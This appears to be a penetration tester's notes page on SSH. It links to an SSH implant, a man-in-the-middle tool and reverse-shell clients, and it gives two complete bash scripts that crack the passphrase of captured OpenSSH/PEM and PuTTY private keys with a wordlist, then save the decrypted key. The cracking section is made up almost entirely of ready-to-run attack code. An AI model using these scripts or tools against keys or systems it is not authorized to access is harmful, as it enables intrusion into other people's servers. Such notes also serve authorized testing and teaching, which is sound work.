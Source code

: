 ```yaml
---
description: Secure Shell
---
```


# SSH

- [https://blog.lexfo.fr/sshimpanzee.html](https://blog.lexfo.fr/sshimpanzee.html)
- [https://github.com/lexfo/sshimpanzee](https://github.com/lexfo/sshimpanzee)
- [https://github.com/ssh-mitm/ssh-mitm](https://github.com/ssh-mitm/ssh-mitm)




## Portable Clients

- [https://github.com/xct/winssh](https://github.com/xct/winssh)
- [https://github.com/NHAS/reverse_ssh](https://github.com/NHAS/reverse_ssh)




## Quicky Offline Private Key Crack

- [https://security.stackexchange.com/a/191122](https://security.stackexchange.com/a/191122)

{% tabs %}
{% tab title="PEM/OpenSSH" %}
{% code title="pem-crack.sh" %}
```bash
#!/usr/bin/env bash
# pem-crack.sh passwords.txt root.protected root.priv

echo "Wordlist    : $1"
echo "PEM key     : $2"
echo "New PEM key : $3"
cp "$2" "$3" && chmod 600 "$3"

while read -r line
do
    err=$( (ssh-keygen -p -P "$line" -N '' -f "$3") 2>&1 )

    if [[ ! $err = *"incorrect passphrase"* ]]; then
        echo "Passphrase  : $line"
        echo "$err"
        break
    fi
done < "$1"
```
{% endcode %}
{% endtab %}
{% tab title="PuTTY PPK" %}
{% code title="ppk-crack.sh" %}
```bash
#!/usr/bin/env bash
# sudo apt install putty-tools -y
# ppk-crack.sh passwords.txt root.ppk.protected root.priv

echo "Wordlist    : $1"
echo "PEM key     : $2"
echo "New PEM key : $3"

touch /tmp/empty
while read -r line
do 
    echo "$line" > /tmp/w
    err=$( (puttygen "$2" -P -o "$3" --old-passphrase /tmp/w --new-passphrase /tmp/empty) 2>&1 )

    if [[ ! $err = *"wrong passphrase"* ]]; then
        echo "Passphrase  : $line"
        echo "$err"
        puttygen "$3" -O private-openssh -o "$3"
        break
    fi
done < $1

rm -f /tmp/w /tmp/empty
```
{% endcode %}
{% endtab %}
{% endtabs %}

